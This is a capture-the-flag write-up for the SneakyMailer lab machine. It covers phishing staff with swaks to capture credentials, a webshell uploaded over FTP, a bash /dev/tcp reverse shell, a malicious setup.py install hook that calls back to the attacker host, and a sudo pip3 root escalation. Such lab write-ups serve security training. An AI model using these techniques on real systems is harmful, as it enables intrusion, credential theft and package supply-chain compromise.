




# SneakyMailer
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.197 --min-rate 5000                 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-30 17:04 GMT
Warning: 10.10.10.197 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.197 (10.10.10.197)
Host is up (0.17s latency).
Not shown: 43759 filtered tcp ports (no-response), 21769 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
143/tcp  open  imap
993/tcp  open  imaps
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 119.98 seconds

```
```
└─$ nmap -Pn -p21,22,25,80,143,993,8080 -sC -sV 10.10.10.197 --min-rate 5000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-30 17:07 GMT
Nmap scan report for 10.10.10.197 (10.10.10.197)
Host is up (0.28s latency).

PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 57:c9:00:35:36:56:e6:6f:f6:de:86:40:b2:ee:3e:fd (RSA)
|   256 d8:21:23:28:1d:b8:30:46:e2:67:2d:59:65:f0:0a:05 (ECDSA)
|_  256 5e:4f:23:4e:d4:90:8e:e9:5e:89:74:b3:19:0c:fc:1a (ED25519)
25/tcp   open  smtp     Postfix smtpd
|_smtp-commands: debian, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
80/tcp   open  http     nginx 1.14.2
|_http-title: Did not follow redirect to http://sneakycorp.htb
|_http-server-header: nginx/1.14.2
143/tcp  open  imap     Courier Imapd (released 2018)
|_imap-capabilities: QUOTA CAPABILITY completed UIDPLUS UTF8=ACCEPTA0001 ENABLE SORT IMAP4rev1 THREAD=ORDEREDSUBJECT STARTTLS CHILDREN THREAD=REFERENCES ACL2=UNION IDLE NAMESPACE OK ACL
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-05-14T17:14:21
|_Not valid after:  2021-05-14T17:14:21
|_ssl-date: TLS randomness does not represent time
993/tcp  open  ssl/imap Courier Imapd (released 2018)
|_imap-capabilities: QUOTA CAPABILITY completed UIDPLUS UTF8=ACCEPTA0001 ENABLE AUTH=PLAIN SORT IMAP4rev1 THREAD=ORDEREDSUBJECT CHILDREN THREAD=REFERENCES ACL2=UNION IDLE NAMESPACE OK ACL
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-05-14T17:14:21
|_Not valid after:  2021-05-14T17:14:21
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http     nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to nginx!
|_http-open-proxy: Proxy might be redirecting requests
Service Info: Host:  debian; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.51 seconds

```

- Web server



- Port `8080`


- `gobuster`
```
└─$ gobuster dir -u http://sneakycorp.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,js --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://sneakycorp.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 185] [--> http://sneakycorp.htb/img/]
/css                  (Status: 301) [Size: 185] [--> http://sneakycorp.htb/css/]
/js                   (Status: 301) [Size: 185] [--> http://sneakycorp.htb/js/]
/vendor               (Status: 301) [Size: 185] [--> http://sneakycorp.htb/vendor/]
/pypi                 (Status: 301) [Size: 185] [--> http://sneakycorp.htb/pypi/]
```
```
└─$ gobuster dir -u http://sneakycorp.htb:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,js --no-error 

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://sneakycorp.htb:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 612]

```

- `vhosts`
```
└─$ wfuzz -u http://sneakycorp.htb/ -H 'Host: FUZZ.sneakycorp.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hw 12
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://sneakycorp.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000019:   200        340 L    989 W      13737 Ch    "dev"    
```

- `ftp`
```
└─$ ftp anonymous@sneakycorp.htb
Connected to sneakycorp.htb.
220 (vsFTPd 3.0.3)
530 Permission denied.
ftp: Login failed
```

## Foothold
- http://sneakycorp.htb/team.php has a list of users, emails
  - Let's extract them
```
└─$ curl -s http://sneakycorp.htb/team.php | grep '@' | cut -d'>' -f2 | cut -d'<' -f1 > sneakycorp.emails                                                                                                      
```
```
└─$ wc -l sneakycorp.emails                                                                                                                   
57 sneakycorp.emails
```

- `dev.sneakycorp.htb` has register page, but it doesn't work


- Since we have a list of emails, let's try phishing them
```
└─$ swaks --to $(cat sneakycorp.emails | tr '\n' ',' | less) --from it-support@sneakymailer.htb --header "Subject: IT-Support Survey" --body "Hello. It's SneakyCorp IT-Support team. Please fill in the survey here http://10.10.16.4/" --server 10.10.10.197 
=== Trying 10.10.10.197:25...
=== Connected to 10.10.10.197.
<-  220 debian ESMTP Postfix (Debian/GNU)
 -> EHLO kali
<-  250-debian
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-STARTTLS
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250-DSN
<-  250-SMTPUTF8
<-  250 CHUNKING
 -> MAIL FROM:<it-support@sneakymailer.htb>
<SNIP>
 -> To: tigernixon@sneakymailer.htb,garrettwinters@sneakymailer.htb,ashtoncox@sneakymailer.htb,cedrickelly@sneakymailer.htb,airisatou@sneakymailer.htb,briellewilliamson@sneakymailer.htb,herrodchandler@sneakymailer.htb,rhonadavidson@sneakymailer.htb,colleenhurst@sneakymailer.htb,sonyafrost@sneakymailer.htb,jenagaines@sneakymailer.htb,quinnflynn@sneakymailer.htb,chardemarshall@sneakymailer.htb,haleykennedy@sneakymailer.htb,tatyanafitzpatrick@sneakymailer.htb,michaelsilva@sneakymailer.htb,paulbyrd@sneakymailer.htb,glorialittle@sneakymailer.htb,bradleygreer@sneakymailer.htb,dairios@sneakymailer.htb,jenettecaldwell@sneakymailer.htb,yuriberry@sneakymailer.htb,caesarvance@sneakymailer.htb,doriswilder@sneakymailer.htb,angelicaramos@sneakymailer.htb,gavinjoyce@sneakymailer.htb,jenniferchang@sneakymailer.htb,brendenwagner@sneakymailer.htb,fionagreen@sneakymailer.htb,shouitou@sneakymailer.htb,michellehouse@sneakymailer.htb,sukiburks@sneakymailer.htb,prescottbartlett@sneakymailer.htb,gavincortez@sneakymailer.htb,martenamccray@sneakymailer.htb,unitybutler@sneakymailer.htb,howardhatfield@sneakymailer.htb,hopefuentes@sneakymailer.htb,vivianharrell@sneakymailer.htb,timothymooney@sneakymailer.htb,jacksonbradshaw@sneakymailer.htb,olivialiang@sneakymailer.htb,brunonash@sneakymailer.htb,sakurayamamoto@sneakymailer.htb,thorwalton@sneakymailer.htb,finncamacho@sneakymailer.htb,sergebaldwin@sneakymailer.htb,zenaidafrank@sneakymailer.htb,zoritaserrano@sneakymailer.htb,jenniferacosta@sneakymailer.htb,carastevens@sneakymailer.htb,hermionebutler@sneakymailer.htb,laelgreer@sneakymailer.htb,jonasalexander@sneakymailer.htb,shaddecker@sneakymailer.htb,sulcud@sneakymailer.htb,donnasnider@sneakymailer.htb,
 -> From: it-support@sneakymailer.htb
 -> Subject: IT-Support Survey
 -> Message-Id: <20231031165747.084219@kali>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 -> 
 -> Hello. It's SneakyCorp IT-Support team. Please fill in the survey here http://10.10.16.4/
 -> 
 -> 
 -> .
<-  250 2.0.0 Ok: queued as 067C524665
 -> QUIT
<-  221 2.0.0 Bye
=== Connection closed with remote host.

```  
```
└─$ nc -lvnp 80  
listening on [any] 80 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.197] 42234
POST / HTTP/1.1
Host: 10.10.16.4
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 185
Content-Type: application/x-www-form-urlencoded

firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt

```

- We receive creds ``paulbyrd@sneakymailer.htb:^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht``
  - We can use `imap` manually or open mailbox via `evolution`



- We find a new set of creds
  - `developer:m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C`


- I tried `ssh` but no success
  - But we can connect via `ftp`
```
└─$ ftp developer@10.10.10.197                                              
Connected to 10.10.10.197.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

- There's a `dev` directory
```
ftp> ls
229 Entering Extended Passive Mode (|||34566|)
150 Here comes the directory listing.
drwxrwxr-x    8 0        1001         4096 Jun 30  2020 dev
226 Directory send OK.
ftp> cd dev
250 Directory successfully changed.
ftp> ls 
229 Entering Extended Passive Mode (|||7536|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 May 26  2020 css
drwxr-xr-x    2 0        0            4096 May 26  2020 img
-rwxr-xr-x    1 0        0           13742 Jun 23  2020 index.php
drwxr-xr-x    3 0        0            4096 May 26  2020 js
drwxr-xr-x    2 0        0            4096 May 26  2020 pypi
drwxr-xr-x    4 0        0            4096 May 26  2020 scss
-rwxr-xr-x    1 0        0           26523 May 26  2020 team.php
drwxr-xr-x    8 0        0            4096 May 26  2020 vendor
226 Directory send OK.

```

- Let's try putting webshell there
```
ftp> put shell.php shell.php
local: Documents/Tools/shell.php remote: shell.php
229 Entering Extended Passive Mode (|||17517|)
150 Ok to send data.
100% |***********************************************************************************************************************************************************************************************|    35        3.86 KiB/s    00:00 ETA
226 Transfer complete.
35 bytes sent in 00:00 (0.06 KiB/s)
ftp> 

```

- And we have our webshell
```
└─$ curl -s http://dev.sneakycorp.htb/shell.php --data-urlencode "cmd=id"             
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

- Let's get reverse shell
```
└─$ curl -s http://dev.sneakycorp.htb/shell.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.16.4/6666 0>&1'"
```



## User
- `paul` had second message later, regarding `python` modules



- Let's find a process mentioned
```
www-data@sneakymailer:~$ ps auxww | grep python
pypi       750  0.0  0.6  36804 25772 ?        Ss   12:30   0:02 /var/www/pypi.sneakycorp.htb/venv/bin/python3 /var/www/pypi.sneakycorp.htb/venv/bin/pypi-server -i 127.0.0.1 -p 5000 -a update,download,list -P /var/www/pypi.sneakycorp.htb/.htpasswd --disable-fallback -o /var/www/pypi.sneakycorp.htb/packages
low       1092  0.0  0.5  29952 20864 ?        Ss   12:30   0:02 /home/low/venv/bin/python /opt/scripts/low/install-modules.py
www-data  3011  0.0  0.2  17048  8352 ?        S    13:14   0:00 python3 -c import pty;pty.spawn("/bin/bash")
www-data  3316  0.0  0.0   6408   884 pts/0    S+   13:21   0:00 grep python

```

- I'll download `.htpasswd` and run `hashcat`
```
www-data@sneakymailer:~$ cat /var/www/pypi.sneakycorp.htb/.htpasswd
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
```
```
└─$ hashcat -m 1600 hash /usr/share/wordlists/rockyou.txt --user
hashcat (v6.2.6) starting
<SNIP>
$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/:soufianeelhaoui
<SNIP>
```

- We have `nginx` configs with another `pypi` subdomain
```
www-data@sneakymailer:/etc/nginx$ ls -lha sites-enabled/
total 8.0K
drwxr-xr-x 2 root root 4.0K May 26  2020 .
drwxr-xr-x 8 root root 4.0K May 14  2020 ..
lrwxrwxrwx 1 root root   46 May 14  2020 pypi.sneakycorp.htb -> /etc/nginx/sites-available/pypi.sneakycorp.htb
lrwxrwxrwx 1 root root   41 May 14  2020 sneakycorp.htb -> /etc/nginx/sites-available/sneakycorp.htb

```
```
www-data@sneakymailer:/etc/nginx$ cat sites-enabled/pypi.sneakycorp.htb
server {
        listen 0.0.0.0:8080 default_server;
        listen [::]:8080 default_server;
        server_name _;
}


server {
        listen 0.0.0.0:8080;
        listen [::]:8080;

        server_name pypi.sneakycorp.htb;

        location / {
                proxy_pass http://127.0.0.1:5000;
                proxy_set_header Host $host;
                proxy_set_header X-Real-IP $remote_addr;
        }
}
```

- I'll add new subdomain to `/etc/hosts`


- We will create a malicious module
  - https://www.linode.com/docs/guides/how-to-create-a-private-python-package-repository/
  - https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/
  - Template structure
    - Empty files: `README.md`, `setup.cfg`
```
www-data@sneakymailer:/dev/shm/revshell$ ls -lha *
-rw-r--r-- 1 www-data www-data  0 Oct 31 13:53 README.md
-rw-r--r-- 1 www-data www-data  0 Oct 31 13:52 setup.cfg
-rw-r--r-- 1 www-data www-data  0 Oct 31 13:52 setup.py

revshell:
total 0
drwxr-xr-x 2 www-data www-data  60 Oct 31 13:52 .
drwxr-xr-x 3 www-data www-data 120 Oct 31 13:53 ..
-rw-r--r-- 1 www-data www-data   0 Oct 31 13:52 __init__.py
```

- `setup.py`
```
import os
import socket
import subprocess
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info


def RunCommand():
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.16.4",443))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    import pty; pty.spawn("/bin/bash") 


class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)

setup(
    name = "revshell",
    version = "0.0.1",
    license = "MIT",
    packages=find_packages(),
    cmdclass={
        'install' : RunInstallCommand
    },
)

```

- Create a source distribution
  - https://www.geeksforgeeks.org/source-distribution-and-built-distribution-in-python/
```
└─$ python2.7 setup.py sdist
running sdist
running egg_info
creating revshell.egg-info
writing revshell.egg-info/PKG-INFO
writing top-level names to revshell.egg-info/top_level.txt
writing dependency_links to revshell.egg-info/dependency_links.txt
writing manifest file 'revshell.egg-info/SOURCES.txt'
reading manifest file 'revshell.egg-info/SOURCES.txt'
writing manifest file 'revshell.egg-info/SOURCES.txt'
running check
warning: check: missing required meta-data: url

warning: check: missing meta-data: either (author and author_email) or (maintainer and maintainer_email) must be supplied

creating revshell-0.0.1
creating revshell-0.0.1/revshell
creating revshell-0.0.1/revshell.egg-info
copying files to revshell-0.0.1...
copying README.md -> revshell-0.0.1
copying setup.cfg -> revshell-0.0.1
copying setup.py -> revshell-0.0.1
copying revshell/__init__.py -> revshell-0.0.1/revshell
copying revshell.egg-info/PKG-INFO -> revshell-0.0.1/revshell.egg-info
copying revshell.egg-info/SOURCES.txt -> revshell-0.0.1/revshell.egg-info
copying revshell.egg-info/dependency_links.txt -> revshell-0.0.1/revshell.egg-info
copying revshell.egg-info/top_level.txt -> revshell-0.0.1/revshell.egg-info
Writing revshell-0.0.1/setup.cfg
creating dist
Creating tar archive
removing 'revshell-0.0.1' (and everything under it)

```
```
└─$ ls -lha dist 
total 12K
drwxr-xr-x 2 kali kali 4.0K Oct 31 18:06 .
drwxr-xr-x 5 kali kali 4.0K Oct 31 18:06 ..
-rw-r--r-- 1 kali kali  953 Oct 31 18:06 revshell-0.0.1.tar.gz
```

- Now we create `~/.pypirc`
  - https://www.linode.com/docs/guides/how-to-create-a-private-python-package-repository/#upload-remotely-using-setuptools
```
[distutils]
index-servers =
  sneaky
[sneaky]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui
```

- Upload to the server
```
└─$ python2.7 setup.py sdist upload -r sneaky
running sdist
running egg_info
writing revshell.egg-info/PKG-INFO
writing top-level names to revshell.egg-info/top_level.txt
writing dependency_links to revshell.egg-info/dependency_links.txt
reading manifest file 'revshell.egg-info/SOURCES.txt'
writing manifest file 'revshell.egg-info/SOURCES.txt'
running check
warning: check: missing required meta-data: url

warning: check: missing meta-data: either (author and author_email) or (maintainer and maintainer_email) must be supplied

creating revshell-0.0.1
creating revshell-0.0.1/revshell
creating revshell-0.0.1/revshell.egg-info
copying files to revshell-0.0.1...
copying README.md -> revshell-0.0.1
copying setup.cfg -> revshell-0.0.1
copying setup.py -> revshell-0.0.1
copying revshell/__init__.py -> revshell-0.0.1/revshell
copying revshell.egg-info/PKG-INFO -> revshell-0.0.1/revshell.egg-info
copying revshell.egg-info/SOURCES.txt -> revshell-0.0.1/revshell.egg-info
copying revshell.egg-info/dependency_links.txt -> revshell-0.0.1/revshell.egg-info
copying revshell.egg-info/top_level.txt -> revshell-0.0.1/revshell.egg-info
Writing revshell-0.0.1/setup.cfg
Creating tar archive
removing 'revshell-0.0.1' (and everything under it)
running upload
Submitting dist/revshell-0.0.1.tar.gz to http://pypi.sneakycorp.htb:8080
Server response (200): OK


```

- And we receive our `revshell`
```
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.197] 42162
low@sneakymailer:/$ id
id
uid=1000(low) gid=1000(low) groups=1000(low),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),119(pypi-pkg)
low@sneakymailer:/$ 

```
## Root
- `sudo`
```
low@sneakymailer:/$ sudo -l
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3

```

- [GTFOBins](https://gtfobins.github.io/gtfobins/pip/#sudo)
  - Simply follow the same steps
```
low@sneakymailer:/dev/shm$ TF=$(mktemp -d)
low@sneakymailer:/dev/shm$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
low@sneakymailer:/dev/shm$ sudo /usr/bin/pip3 install $TF
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Processing /tmp/tmp.Xhq8u5Nvjh
# id
uid=0(root) gid=0(root) groups=0(root)

```